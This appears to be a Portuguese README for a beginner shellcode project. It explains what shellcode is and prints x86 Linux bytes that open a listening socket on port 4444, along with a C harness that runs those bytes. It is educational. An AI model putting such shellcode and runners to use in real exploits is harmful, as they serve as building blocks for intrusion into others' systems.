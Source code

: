 # Projeto Shellcode

### O que é um shellcode?
Em segurança da informação, um shellcode é um trecho de código que é usado durante a exploração de alguma vulnerabilidade.

É chamado shellcode por normalmente envolver a abertura de uma shell durante a execução, mas não é necessariamente limitado a  isso.

Nesse projeto o codigo em assembly é basicamente um socket simples.

Para criarmos um shellcode, primeiramente precisamos criar um código em assembly.
Em seguida compilamos o codigo e abrimos o executável em um debugger. Assim podemos ver os bytes que precisamos para montar o shellcode.



![[Pasted image 20220620033644.png]]

Assim temos os bytes:

``` 
\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80
```

E podemos passar esses bytes para uma linguagem mais alto nível, como C.

```C
unsigned char shellcode[] = "\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80";

main(int argc, char *argv[])
{
  int (*ret)() = (int(*)())shellcode;

  ret();
}

```

Ao compilar e executar esse código C temos um socket inicializado.

Em um uso real, o shellcode quase sempre é usado junto com um exploit (codigo que explora alguma falha).

<br />
<br />
<small>Fontes: https://gitbook.ganeshicmc.com/pwning/shellcode, https://en.wikipedia.org/wiki/Shellcode:</small>
